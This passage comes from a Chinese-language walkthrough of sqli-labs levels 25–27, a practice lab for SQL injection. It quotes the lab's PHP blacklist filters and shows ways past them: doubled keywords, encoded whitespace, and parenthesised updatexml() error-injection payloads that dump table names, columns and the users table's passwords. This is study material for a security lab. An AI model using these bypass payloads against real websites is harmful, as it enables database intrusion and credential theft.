 发现对 or 和 and 的过滤是将他们替换为空，但是只会替换一次，那也可以使用双写绕过 oorr 然后按照 23 关的方式过关。

### 第 25a 关

过滤掉 and 和 or 版的第一关。

### 第 26 关

这一关在上一关的基础上对特殊符号进行了更彻底的过滤，空格，注释符也被过滤掉了。bing 了一下尝试了是同制表符换行符换页符代替空格的进行绕过的操作，但是哪怕 php 脚本里并没有对这些符号进行过滤但还是失败了

``` PHP
        $id= preg_replace('/or/i',"", $id); //strip out OR (non case sensitive)
        $id= preg_replace('/and/i',"", $id);    //Strip out AND (non case sensitive)
        $id= preg_replace('/[\/\*]/',"", $id);  //strip out /*
        $id= preg_replace('/[--]/',"", $id);    //Strip out --
        $id= preg_replace('/[#]/',"", $id); //Strip out #
        $id= preg_replace('/[\s]/',"", $id);    //Strip out spaces
        $id= preg_replace('/[\/\\\\]/',"", $id);
```

不知道是为什么。令人费解，日后再查，mark 一下
按道理这关可以采用的编码绕过方式有

- %09 TAB 键（空格）
- %0A 新建一行（空格）
- %0C 新的一页
- %0D return 即回车功能 （php-5.2.17,5.3.29 成功）
- %0B TAB 键（垂直）
- %A0 空格 （php-5.2.17 成功）
但是失败了，再查资料发现可以采用括号绕过, 比如

``` plaintext
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1))||'0   爆表
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security'aandnd(table_name='users')))),1))||'0     爆字段
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(passwoorrd,username))from(users))),1))||'0   爆字段值
```

因为 ```union select``` 之间的空格想不到怎么用()绕过就干脆使用报错注入了。

### 第 26a 关

这一关一是把 ```print(mysql_error())``` 注释掉了，二是使用了单引号和括号包裹参数。按道理和上一关一样应该使用其他字符代替空格进行绕过的，然是也和上一关一样无法绕过那联表查询难以使用。MysqlError 回显也没有报错注入也失效了 🤔。所幸的是我们能够得知语句执行的正确与否，也就是说这一关应该采用 bool 注入的方式判断注入结果，但是怎么绕过 blacklist 呢 🤔
😫😵🔫

### 第 27 关

在 26 关的基础上过滤了 union 和 select 关键字，但没过滤 and 和 or 关键字，进一步查看源代码发现

```PHP
    $id= preg_replace('/[\/\*]/',"", $id);//strip out /*
    $id= preg_replace('/[--]/',"", $id);//Strip out --.
    $id= preg_replace('/[#]/',"", $id);//Strip out #.
    $id= preg_replace('/[ +]/',"", $id);//Strip out spaces.
    $id= preg_replace('/select/m',"", $id);//Strip out spaces.
    $id= preg_replace('/[ +]/',"", $id);//Strip out spaces.
    $id= preg_replace('/union/s',"", $id);//Strip out union
    $id= preg_replace('/select/s',"", $id);//Strip out select
    $id= preg_replace('/UNION/s',"", $id);//Strip out UNION
    $id= preg_replace('/SELECT/s',"", $id);//Strip out SELECT
    $id= preg_replace('/Union/s',"", $id);//Strip out Union
    $id= preg_replace('/Select/s',"", $id);//Strip out select
```
